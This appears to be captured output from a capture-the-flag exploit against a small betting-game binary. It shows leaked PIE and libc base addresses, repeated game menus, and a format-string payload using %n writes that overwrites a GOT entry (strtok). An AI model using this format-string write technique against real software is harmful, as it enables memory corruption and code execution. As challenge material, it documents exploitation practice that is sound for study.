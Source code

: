 ```
%x.%x's bet: And the winner is *drumroll*:
pie base is: 0x565ff000
libc base is: 0xf7d87000
malloc hook is: 0xf7f5f788
strtok: 0x56601584
printf: 0x565ff9df
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game


Welcome new player!
Please enter your name:
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game





[*] Switching to interactive mode

Welcome new player!
Please enter your name:
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
Which player index should i change:
Enter new name:
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
I think you missed a key there

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
Which player index should i change:
Enter new name:
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
Amount of players playing this round: Each player makes a bet between 0 -> 100, the one who lands closest win the round!
%x.%x's bet: \x84\x15`V\x86\x15`V%16888x%19$n%46556x%20$n's bet: And the winner is *drumroll*: \x84\x15`V\x86\x15`V
```
